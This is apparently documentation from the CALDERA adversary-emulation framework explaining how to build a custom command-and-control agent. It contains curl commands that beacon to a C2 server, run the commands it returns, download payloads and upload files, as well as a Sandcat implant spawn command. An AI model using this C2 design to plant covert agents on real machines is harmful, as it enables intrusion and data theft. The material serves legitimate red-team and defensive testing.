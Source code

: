 # How to Build Agents

Building your own agent is a way to create a unique - or undetectable - footprint on compromised machines. Our
default agent, Sandcat, is a representation of what an agent can do. This agent is written in GoLang and offers
an extensible collection of command-and-control (C2) protocols, such as communicating over HTTP or GitHub Gist. 

You can extend Sandcat by adding your own C2 protocols in place or you can follow this guide to create your own agent 
from scratch.

## Understanding contacts

Agents are processes which are deployed on compromised hosts and connect with the C2 server periodically for instructions.
An agent connects to the server through a *contact*, which is a specific connection point on the server.

Each contact is defined in an independent Python module and is registered with the contact_svc when the server starts.

There are currently several built-in contacts available: http, tcp, udp, websocket, gist (via Github), and dns. 

For additional stealth, supporting agents can use communication tunnels to tunnel built-in contacts like HTTP, TCP, and UDP. For more information on C2 communication tunneling, see the [C2 tunneling section](C2-Tunneling.md).

## Building an agent: HTTP contact

Start by getting a feel for the HTTP endpoint, which are located in the contacts/contact_http.py module.
```
POST  /beacon 
```
### Part #1

Start by writing a POST request to the /beacon endpoint. 

In your agent code, create a flat JSON dictionary of key/value pairs and ensure the following properties are included
as keys. Add values which correlate to the host your agent will be running on. Note - all of these properties are
optional - but you should aim to cover as many as you can.

> If you don't include a platform and executors then the server will never provide instructions to the agent, as it 
won't know which ones are valid to send. 

* **server**: The location (IP or FQDN) of the C2 server  
* **platform**: The operating system
* **host**: The hostname of the machine
* **group**: Either red or blue. This determines if your agent will be used as a red or blue agent.
* **paw**: The current unique identifier for the agent, either initially generated by the agent itself or provided by the C2 on initial beacon.
* **username**: The username running the agent
* **architecture**: The architecture of the host
* **executors**: A list of executors allowed on the host
* **privilege**: The privilege level of the agent process, either User or Elevated
* **pid**: The process identifier of the agent
* **ppid**: The process identifier of the agent's parent process
* **location**: The location of the agent on disk
* **exe_name**: The name of the agent binary file
* **host_ip_addrs**: A list of valid IPv4 addresses on the host
* **proxy_receivers**: a dict (key: string, value: list of strings) that maps a peer-to-peer proxy protocol name to a list of addresses that the agent is listening on for peer-to-peer client requests.
* **deadman_enabled**: a boolean that tells the C2 server whether or not this agent supports deadman abilities. If this value is not provided, the server assumes that the agent does not support deadman abilities.
* **upstream_dest**: The "next hop" upstream destination address (e.g. IP or FQDN) that the agent uses to
reach the C2 server. If the agent is using peer-to-peer communication to reach the C2, this value will contain
the peer address rather than the C2 address.

At this point, you are ready to make a POST request with the profile to the /beacon endpoint. You should get back:

1) The recommended number of seconds to sleep before sending the next beacon
2) The recommended number of seconds (watchdog) to wait before killing the agent, once the server is unreachable (0 means infinite)
3) A list of instructions - base64 encoded.
```
profile=$(echo '{"server":"http://127.0.0.1:8888","platform":"darwin","executors":["sh"]}' | base64)
curl -s -X POST -d $profile localhost:8888/beacon | base64 --decode
...{"paw": "dcoify", sleep": 59, "watchdog": 0, "instructions": "[...]"}
```

If you get a malformed base64 error, that means the operating system you are using is adding an empty space to the 
profile variable. You can prove this by 
```
echo $profile
```

To resolve this error, simply change the line to (note the only difference is '-w 0'):
```
profile=$(echo '{"server":"http://127.0.0.1:8888","platform":"darwin","executors":["sh"]}' | base64 -w 0)
```

> The paw property returned back from the server represents a unique identifier for your new agent. Each
time you call the /beacon endpoint without this paw, a new agent will be created on the server - so you should ensure
that future beacons include it.

You can now navigate to the CALDERA UI, click into the agents tab and view your new agent. 

### Part #2

Now it's time to execute the instructions. 

Looking at the previous response, you can see each instruction contains:

* **id**: The link ID associated to the ability
* **sleep**: A recommended pause to take after running this instruction
* **command**: A base64 encoded command to run
* **executor**: The executor to run the command under
* **timeout**: How long to let the command run before timing it out
* **payload**: A payload file name which must be downloaded before running the command, if applicable
* **uploads**: A list of file names that the agent must upload to the C2 server after running the command.

Now, you'll want to revise your agent to loop through all the instructions, executing each command
and POSTing the response back to the /beacon endpoint. You should pause after running each instruction, using the sleep time provided inside the instruction.
```
data=$(echo '{"paw":"$paw","results":[{"id":$id, "output":$output, "stderr":$stderr, "exit_code":$exit_code, "status": $status, "pid":$pid}]}' | base64)
curl -s -X POST -d $data localhost:8888/beacon
sleep $instruction_sleep
```

The POST details inside the result are as follows:

* **id**: the ID of the instruction you received
* **output**: the base64 encoded output (or stdout) from running the instruction
* **stderr**: the base64 encoded error messages (or stderr) from running the instruction
* **exit_code**: the OS or process exit code from running the instruction.  If unsure, leave blank. 
* **status**: the status code from running the instruction. If unsure, put 0.
* **pid**: the process identifier the instruction ran under. If unsure, put 0.

Once all instructions are run, the agent should sleep for the specified time in the beacon before calling the /beacon 
endpoint again. This process should repeat forever. 

### Part #3

Inside each instruction, there is an optional *payload* property that contains a filename of a file to download
before running the instruction. To implement this, add a file download capability to your agent, directing it to
the /file/download endpoint to retrieve the file:
```
payload='some_file_name.txt"
curl -X POST -H "file:$payload" http://localhost:8888/file/download > some_file_name.txt
```

### Part 4

Inside each instruction, there is an optional **uploads** property that contains a list of filenames to upload to the C2 after running the instruction and submitting the execution results. To implement this, add a file upload capability to your agent. If using the HTTP contact, the file upload should hit the `/file/upload` upload endpoint of the server.

### Part #5

You should implement the watchdog configuration. This property, passed to the agent in every beacon, contains
the number of seconds to allow a dead beacon before killing the agent. 

## Lateral Movement Tracking

Additionally, you may want to take advantage of CALDERA's lateral movement tracking capabilities. CALDERA's current 
implementation for tracking lateral movement depends on passing the ID of the Link spawning the agent as 
an argument to the agent's spawn command and upon the agent's check in, for this Link ID to be returned as part of the
agent's profile. The following section explains how lateral movement tracking has been enabled for the default agent,
Sandcat.  

### Sandcat

An example Sandcat spawn command has been copied from the [Service Creation ability](https://github.com/mitre/stockpile/blob/master/data/abilities/execution/95727b87-175c-4a69-8c7a-a5d82746a753.yml)
and included below for reference:
```
C:\Users\Public\s4ndc4t.exe -server #{server} -originLinkID #{origin_link_id}
```
If the CALDERA server is running on `http://192.168.0.1:8888` and the ID of the Link with the spawn command is `cd63fdbb-0f3a-49ea-b4eb-306a3ff40f81`,
the populated command will appear as:
```
C:\Users\Public\s4ndc4t.exe -server http://192.168.0.1:8888 -originLinkID cd63fdbb-0f3a-49ea-b4eb-306a3ff40f81
```
The Sandcat agent stores the value of this global variable in its profile, which is then returned to the CALDERA server
upon first check-in as a key\value pair `origin_link_id : cd63fdbb-0f3a-49ea-b4eb-306a3ff40f81` in the JSON dictionary. The CALDERA server will 
automatically store this pair when creating the Agent object and use it when generating the Attack Path graph in the
Debrief plugin.

**NOTE: The `origin_link_id` key is optional and not required for the CALDERA server to register and use new agents as
 expected. It is only required to take advantage of the lateral movement tracking in the Debrief plugin.**  
